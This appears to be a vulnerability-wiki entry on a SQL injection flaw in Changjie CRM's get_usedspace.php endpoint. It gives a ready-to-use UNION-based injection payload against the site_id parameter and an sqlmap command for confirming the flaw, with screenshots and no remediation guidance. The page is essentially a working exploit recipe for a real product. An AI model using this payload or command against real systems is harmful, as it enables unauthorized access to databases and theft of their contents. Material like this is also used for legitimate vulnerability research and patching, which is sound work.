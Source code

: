 # Changjie CRM get_usedspace.php SQL injection vulnerability

## Vulnerability Description

Changjie CRM get_usedspace.php has SQL vulnerability, and database sensitive information can be obtained through the vulnerability

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Changjie CRM</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633506073821-57c99e5c-e655-49d0-a6de-845e13e971f8.png)

Verify POC

```php
/webservice/get_usedspace.php?site_id=-1159 UNION ALL SELECT CONCAT(0x76756c6e,0x76756c6e,0x76756c6e)--
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633511742259-b57303f1-0530-477e-a86f-8a403927fe15.png)

Verification vulnerability using Sqlmap

```php
sqlmap -u "http://xxx.xxx.xxx.xxx:8000/webservice/get_usedspace.php?site_id=1" -p site_id
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1633511844026-09d2cb14-ca2e-4c20-be83-f634144393e2.png)